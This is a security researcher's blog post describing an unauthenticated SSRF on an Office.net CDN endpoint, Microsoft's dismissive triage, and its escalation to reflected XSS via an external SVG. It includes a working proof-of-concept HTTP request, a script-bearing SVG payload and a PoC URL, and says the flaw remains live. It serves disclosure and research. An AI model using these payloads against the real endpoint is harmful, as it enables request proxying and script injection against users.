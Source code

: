 ```yaml
---
title: "Unauthenticated SSRF in Office.net"
date: 2024-10-28T20:20:19-04:00
draft: true
tags: ["notes", "microsoft", "ssrf", "xss"]
---
```


In late September I reported an unauthenticated SSRF I'd found on Office.net to MSRC, only to receive a response that said I had included no reproduction steps, and therefore the report was invalid and would be closed. 

Obviously, the report had reproduction steps. So I replied, directing them to *the report* (which included reproduction steps), and was met with the same response. The report was closed, and I was pretty miffed. 

It sucks, but it's actually not the first time it's happened to me, in similar form, so I filed it back into my pile of orphaned MS bugs and ended up looking back at it again a week later. 

*Once, I had a report for a bug in Teams get automatically closed, receiving a response about it not meeting criteria for bugs in Bing. After asking what the fuck Bing had to do with anything I got:*
> "There seems like there may have been a mix-up on our end. You are correct, this case does not deal with BingAI" 

*No joke. They later paid out $5,000 for this disclosure.*

### SSRF Details

The SSRF wasn't complex, a URL path parameter caused an HTTP request to arbitrary domains, but it was restricted to image files and responded with 405's and a `Content-Type not allowed` response body for anything but. While it could only retrieve image contents.

Here's a poc request:
```
GET /localh0st.run/test?testParam=test HTTP/1.1
Host: media.akamai.odsp.cdn.office.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
TEST-HEADER: This is a test header through an SSRF
```

and what `localh0st.run` receives:
```
GET /test?testParam=test HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
TEST-HEADER: This is a test header through an SSRF
Pragma: akamai-x-cache-remote-on
X-Akamai-CONFIG-LOG-DETAIL: true
TE:  chunked;q=1.0
Connection: TE
Accept-Encoding: gzip
Akamai-Origin-Hop: 1
Via: 1.1 akamai.net(ghost) (AkamaiGHost)
X-Forwarded-For: 6x.xx.xx.xx7
True-Client-IP: 6x.xx.xx.xx7
Host: localh0st.run
Cache-Control: max-age=86400
Connection: keep-alive
```

Not a crazy bug, but it allows proxying of GET requests, including headers and parameters, to arbitrary resources. Note the included `TEST-HEADER: This is a test header through an SSRF` header.

### SSRF --> XSS

I went back a week or two later to resubmit it, and decided to take a second look. This time I fuzzed for accepted file extensions and found SVGs were returned successfully. I made a quick XSS SVG PoC and boom, Reflected XSS on Office.net through an externally hosted SVG!

classic XSS svg:
```
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">  
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>  
<script type="text/javascript">  
alert(document.location);  
</script>  
</svg>
```

PoC URL:

`https://media.akamai.odsp.cdn.office.net/localh0st.run/tests/test.svg`

![XSS-1](<screens/Pasted image 20241001210323.png>)

### Bounty? You wish!

Sadly, even though this was an unauthenticated SSRF, leading to XSS via an externally hosted SVG, that additionally allowed both arbitrary URL parameters *and* arbitrary headers sent to external and internal resources, Microsoft said the following:

![alt text](<screens/Pasted image 20241028100744.png>)

I feel like the "as presented" wording is a bit of a "gotcha" (it's XSS, come on), but MS has very strict categorization of issues, defined here: https://www.microsoft.com/en-us/msrc/olsbugbar

This XSS apparently only meets the "General - Moderate" classification: 
> XSS triggering on public pages that does not disclose private data or allow the compromise of an authenticated session

Interestingly however, the SSRF meets the "Confidential - Important" criteria:
> SSRF vulnerability sending requests to sensitive internal endpoints that leaks sensitive information or performs a sensitive action 

Microsoft, however, does not agree.

### Status: Complete

It took a bit of digging through MS documentation, [but a disclosure status of **Complete**, states](https://msrc.microsoft.com/blog/2023/07/what-to-expect-when-reporting-vulnerabilities-to-microsoft/) "Congratulations! You will now be free to discuss your findings publicly if you wish."

So, while this issues remains actively vulnerable, Microsoft has been made aware, they decided it's not really an issue, and given their blessing for public disclosure.

I don't get it either, but it's public now so have fun I guess.